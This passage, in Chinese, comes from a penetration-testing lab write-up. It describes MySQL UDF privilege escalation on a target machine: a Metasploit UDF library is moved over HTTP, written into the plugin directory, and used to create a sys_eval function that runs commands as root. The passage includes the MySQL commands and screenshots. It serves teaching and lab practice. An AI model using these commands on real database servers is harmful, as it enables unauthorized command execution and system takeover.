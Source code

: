 3、由于靶机中未找到 udf 库，我们可在 msf 中找到对应版本（lib\_mysqludf\_sys\_64.so）。开启 http 服务将 udf 库文件摆渡到靶机上。

[![](assets/1703831504-6e59df4891942eb51f4b1380c81d4f8e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231227164058-a875b5e0-a493-1.png)

4、创建表，将文件内容写到表中。将表中数据，写到 plugin 目录，自定义一个文件名，而后创建恶意函数 sys\_eval，利用函数，获得一个 root 权限。

```bash
mysql> select data from tmp into dumpfile"/usr/lib/mysql/plugin/udf64.so";
mysql> create function sys_eval returns string soname 'udf64.so';
myssql> select sys_eval('whoami');
```

[![](assets/1703831504-36218f7a9ffc275d88bf159419465d73.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231227164106-ad117dfa-a493-1.png)
